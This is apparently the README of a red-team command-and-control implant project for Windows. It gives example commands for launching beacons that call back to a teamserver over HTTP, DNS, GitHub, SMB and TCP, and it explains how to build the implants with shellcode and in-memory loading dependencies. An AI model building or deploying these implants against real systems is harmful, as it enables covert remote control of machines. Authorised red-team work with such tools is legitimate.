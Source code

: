 # Exploration C2 Implant

## Overview

**Exploration** is a lightweight, modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Windows systems. The corresponding TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

This project includes multiple Beacons capable of communicating with the TeamServer through a variety of channels. Supported communication methods include HTTP/HTTPS, GitHub, DNS, SMB, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp.exe <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp.exe 10.10.10.10 8443 https
BeaconHttp.exe 10.10.10.10 8080 http

# GitHub
BeaconGithub.exe <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub.exe maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns.exe <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns.exe 8.8.8.8 bac.superdomain.com

# SMB
BeaconSmb.exe <LISTENER_IP> <PIPE_NAME>
BeaconSmb.exe 127.0.0.1 pipename

# TCP
BeaconTcp.exe <LISTENER_IP> <LISTENER_PORT>
BeaconTcp.exe 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project relies on several third-party libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Enables runtime DLL loading.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Executes PowerShell from unmanaged code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing.

### Preparing the Environment

Install prerequisites:

* [Chocolatey](https://chocolatey.org/install)
* CMake:

```bash
choco install cmake --pre
```

Initialize submodules and set up the build directory:

```bash
git submodule update --init
mkdir buildWindows
cd buildWindows
```

### Building the Windows Beacons and Modules

#### Windows x64

Using the "x64 Native Tools Command Prompt for VS":

```bash
# With tests and logging enabled:
cmake -G "Visual Studio 17 2022" -DWITH_TESTS=ON ..

# Without tests and logging:
cmake -G "Visual Studio 17 2022" ..

msbuild .\C2Implant.sln /property:Configuration=Release -m
```

Alternatively, open the generated `C2Implant.sln` in Visual Studio and build in **Release** mode. Ensure the Runtime Library is set to **Multi-threaded (/MT)**.

Project can also be build with the C2Core package:

```bash
# download last windows package

set "CMAKE_PREFIX_PATH=path_to_C2Core-Windows" 

cmake -G "Visual Studio 17 2022" ..

msbuild .\C2Implant.sln /property:Configuration=Release -m

```

#### Windows x86

```bash
cmake -G "Visual Studio 17 2022" -A "Win32" ..
msbuild .\C2Implant.sln /property:Configuration=Release /p:Platform=Win32 -m
```

### Output Locations

* Compiled Beacons: `Release\Beacons`
* Compiled Module DLLs: `Release\Modules`
